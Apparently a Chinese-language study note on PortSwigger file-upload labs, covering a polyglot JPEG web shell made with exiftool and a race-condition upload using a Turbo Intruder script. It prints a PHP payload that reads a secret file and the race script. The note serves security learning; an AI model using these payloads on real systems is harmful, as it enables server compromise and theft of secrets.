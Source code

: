 有些更安全的網站會對檔案內容進行驗證，例如：會對照片的尺寸進行驗證，一個 PHP 程式碼就不會有唯獨，就會被限制。又或者會去驗證檔案中的某個特定部分，例如：JPEG 檔始終會以 `FF D8 FF` 開頭。

但仍然可使用特殊工具（如 ExifTool）製作惡意程式碼的 JPEG 檔。

- [**Lab: Remote code execution via polyglot web shell upload**](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)
    1. 上傳 `test.php` 後發現，回應說只能上傳圖片檔。
    2. 使用 exiftool 工具將任一照片的 coment 值設成：`exiftool -comment="<?php echo 'Hello world '; passthru('cat /home/carlos/secret'); echo ' this is the end';?>" {file_path}`。
    3. 將修改後的照片檔副檔名修改成 `.php` 並上傳。
    4. 利用 Burp Suite 獲取會傳的封包，就看到密碼了～

### 檔案上傳的競爭條件

網站為了避免被攻擊，會先將檔案上傳到沙盒，若發現檔案中有危害的程式，就會刪除檔案。

競爭條件就是在判斷是否有危害程式的時候，立即抓去檔案下來。這種方式必須使用程式來執行，或透過 Turp Intruder 等工具，在短時間內上傳檔案並下載檔案。

- [**Lab: Web shell upload via race condition**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)
    1. 上傳一張照片，並打開照片。
    2. 上傳一個 `test.php` 檔，回應顯示只能上傳照片檔。
    3. 使用 Turp Intruder，貼上這段程式：
        
        ```python
        def queueRequests(target, wordlists):
            engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)
        
            request1 = '''<YOUR-POST-REQUEST>'''
        
            request2 = '''<YOUR-GET-REQUEST>'''
        
            # the 'gate' argument blocks the final byte of each request until openGate is invoked
            engine.queue(request1, gate='race1')
            for x in range(5):
                engine.queue(request2, gate='race1')
        
            # wait until every 'race1' tagged request is ready
            # then send the final byte of each request
            # (this method is non-blocking, just like queue)
            engine.openGate('race1')
        
            engine.complete(timeout=60)
        
        def handleResponse(req, interesting):
            table.add(req)
        ```
        